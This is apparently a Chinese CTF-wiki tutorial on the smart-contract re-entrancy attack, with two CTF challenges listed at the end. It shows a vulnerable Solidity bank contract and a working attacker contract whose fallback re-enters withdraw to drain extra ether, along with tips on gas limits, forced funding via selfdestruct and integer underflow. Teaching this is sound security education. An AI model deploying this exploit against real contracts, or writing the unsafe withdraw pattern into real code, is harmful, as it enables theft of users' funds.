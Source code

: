 # Re-Entrancy

重入攻击是智能合约中的经典攻击。以太坊The DAO项目遭受的重入攻击直接导致了以太坊（ETH）和以太坊经典（ETC）的硬分叉。

## 原理
假设有一个银行合约实现了以下取款功能，在`balanceOf[msg.sender]`充足时，合约会转账相应数量的以太币给调用者，并且将`balanceOf`减去相应值：

```solidity
contract Bank {
    mapping(address => uint256) public balanceOf;
    ...
    function withdraw(uint256 amount) public {
        require(balanceOf[msg.sender] >= amount);
        msg.sender.call.value(amount)();
        balanceOf[msg.sender] -= amount;
    }
}
```

这个实现的问题在于，“先给钱后记账”。在以太坊中，合约的调用者可以是另一个智能合约，转账时收款合约的fallback函数会被调用。若fallback函数内再一次调用了对方的withdraw函数，由于此时`balanceOf`尚未减少，require的条件仍然满足，导致可以再次取款。需要注意的是，fallback函数需要限制重入的次数，否则会因为无限地循环调用，导致gas不足。假设攻击合约的存款有1 ether，可以如下实现取出2 ether：

```
contract Hacker {
    bool status = false;
    Bank b;

    constructor(address addr) public {
        b = Bank(addr);
    }

    function hack() public {
        b.withdraw(1 ether);
    }

    function() public payable {
        if (!status) {
            status = true;
            b.withdraw(1 ether);
        }
    }
}
```

此外有几个注意点：

- 目标合约使用call发送以太币时，默认提供所有剩余gas；call操作改为对提款者合约的调用亦可实现攻击；但如果使用transfer或者send来发送以太币，只有2300 gas供攻击合约使用，是不足以完成重入攻击的。
- 执行重入攻击前，需要确认目标合约有足够的以太币来向我们多次转账。如果目标合约没有payable的fallback函数，则需要新建一个合约，通过`selfdestruct`自毁强制转账。
- 上述fallback实现中，先改写`status`后重入。如果反过来则还是会无限循环调用，这和重入漏洞的道理是一致的。

重入漏洞与整数下溢出漏洞关联密切。在上述攻击后，攻击合约的存款由1 ether变为-1 ether。但注意到存款由uint256保存，负数实际上保存为一个极大的正数，后续攻击合约可以继续使用这个大数额的存款。

## 题目

强网杯2019 babybank
N1CTF2019 h4ck
